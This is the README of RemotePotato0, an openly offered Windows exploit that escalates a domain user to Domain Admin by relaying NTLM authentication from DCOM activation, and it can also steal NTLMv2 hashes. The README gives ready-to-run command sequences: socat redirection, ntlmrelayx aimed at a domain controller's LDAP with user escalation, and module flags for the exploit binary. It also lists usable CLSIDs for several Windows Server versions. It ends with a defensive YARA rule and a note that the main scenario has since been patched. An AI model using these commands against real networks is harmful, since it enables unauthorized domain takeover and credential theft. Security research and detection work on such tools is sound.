

# RemotePotato0

**UPDATE 21-10-2022: The main exploit scenario RPC->LDAP of RemotePotato0 has been fixed. More details at -->** https://twitter.com/splinter_code/status/1583555613950255104  

Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine.
It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.
RemotePotato0 also allows to grab and steal NTLMv2 hashes of every users logged on a machine.

## Examples

Attacker machine (10.0.0.20)

Victim machine (10.0.0.45)

Victim Domain Controller (10.0.0.10)

#### Module 0 - Rpc2Http cross protocol relay server + potato trigger

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

```
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1
```

#### Module 1 - Rpc2Http cross protocol relay server
```
.\RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20 
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```

#### Module 2 - Rpc capture (hash) server + potato trigger
```
query user
.\RemotePotato0.exe -m 2 -s 1
```

#### Module 3 - Rpc capture (hash) server
```
.\RemotePotato0.exe -m 3 -l 9997
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```
## Usage

```


        RemotePotato0
        @splinter_code & @decoder_it


Mandatory args:
-m module
        Allowed values:
        0 - Rpc2Http cross protocol relay server + potato trigger (default)
        1 - Rpc2Http cross protocol relay server
        2 - Rpc capture (hash) server + potato trigger
        3 - Rpc capture (hash) server


Other args: (someone could be mandatory and/or optional based on the module you use)
-r Remote HTTP relay server ip
-t Remote HTTP relay server port (Default 80)
-x Rogue Oxid Resolver ip (default 127.0.0.1)
-p Rogue Oxid Resolver port (default 9999)
-l RPC Relay server listening port (Default 9997)
-s Session id for the Cross Session Activation attack (default disabled)
-c CLSID (Default {5167B42F-C111-47A1-ACC4-8EABE61B0B54})
```


## Demo

### Cross session activation


### Hash Stealer


## CLSID List

A list of usable CLSID on various Windows version:

Windows Server 2019
```
{0002DF02-0000-0000-C000-000000000046} - BrowserBroker Class   
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4} - AuthBrokerUI 
{5167B42F-C111-47A1-ACC4-8EABE61B0B54} - Easconsent.dll 
{924DC564-16A6-42EB-929A-9A61FA7DA06F} - Authentication UI CredUI Out of Proc Helper for Non-AppContainer Clients  
{934b410c-43e4-415e-9935-fbc081ba93a9} - UserInfoDialog   
{BA441419-0B3F-4FB6-A903-D16CC14CCA44} - CLSID_LockScreenContentionFlyout 
{c58ca859-80bc-48df-8f06-ffa94a405bff} - Picker Host   
{f65817c8-dd85-4136-89f0-b9d12939f2c4} - IsolatedMessageDialogFactory  
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} - SPPUIObjectInteractive Class
{f8842f8e-dafe-4b37-9d38-4e0714a61149} - CastServerInteractiveUser
```

Windows Server 2016
```
{924DC564-16A6-42EB-929A-9A61FA7DA06F}
{f65817c8-dd85-4136-89f0-b9d12939f2c4}
{BA441419-0B3F-4FB6-A903-D16CC14CCA44}
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4}
{934b410c-43e4-415e-9935-fbc081ba93a9}
{f8842f8e-dafe-4b37-9d38-4e0714a61149}
{0002DF02-0000-0000-C000-000000000046}
{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
{c58ca859-80bc-48df-8f06-ffa94a405bff}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

Windows Server 2008 R2
```
{FCC74B77-EC3E-4dd8-A80B-008A702075A9}
{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```


You can find a more complete list here --> http://ohpe.it/juicy-potato/CLSID/

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)
* [@Responder](https://github.com/lgandx/Responder)

## References
- https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop/
- https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html
